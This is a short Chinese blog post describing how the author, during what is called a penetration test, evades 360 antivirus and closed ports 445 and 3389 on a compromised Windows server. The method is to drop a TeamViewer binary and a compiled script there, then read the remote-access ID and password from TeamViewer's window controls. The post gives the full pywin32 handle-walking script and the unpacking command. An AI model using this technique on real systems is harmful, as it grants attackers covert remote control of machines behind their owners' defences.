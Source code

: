 ```yaml
---
title: 通过Teamviewer突破目标系统防御
date: 2019-07-21 11:51:24
description: 极客兔兔的小站，致力于分享一些技术教程和有趣的技术实践。


---
```


在一次测试中，我发现目标服务器挂着360tray、360bdoctor以及360EntClient等众多查杀软件，导致我的rat十分不稳定，且目标关闭了445、3389等端口，以及安装KB2871997补丁,使我十分懊恼。

![img](https://www.yunzhijia.com/microblog/filesvr/5d34186190144e185987e409)

后来借鉴了前辈的teamview思路，成功突破难题

通过运行teamview ,使用win32api查找句柄的方式获取窗口对话框的文本Edit 获取对应的ID、密码，为了很好兼容所有版本,我直接遍历所有控件的内容。

![img](https://www.yunzhijia.com/microblog/filesvr/5d341948a372597c751e557b)

使用pywin32查找对应的句柄:

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import win32gui as gui
import win32con,win32gui

def findwindow(pHandle):
    handle=None
    while handle!=0:
        handle=gui.FindWindowEx(pHandle,handle,None,None)        
        if handle!=0:
            findwindow(handle)
            buffer = '0' * 17
            len = win32gui.SendMessage(handle, win32con.WM_GETTEXTLENGTH) + 1
            win32gui.SendMessage(handle, win32con.WM_GETTEXT, len, buffer)
            print buffer[:len]
findwindow(gui.FindWindow(None,'TeamViewer'))
```

将Teamview 单文件，以及编译后的脚本压缩丢入服务器中并使用命令行进行解压:

```
start winrar x team.zip F:\
```

![img](https://www.yunzhijia.com/microblog/filesvr/5d34189ca372597c751e54a4)

最终效果，成功获取到对方teamview ID 登录密码。

![img](https://www.yunzhijia.com/microblog/filesvr/5d34188328011f3c534e0511)

实现起来非常简单，就是对win32api比较生疏，给自己挖了点坑-.-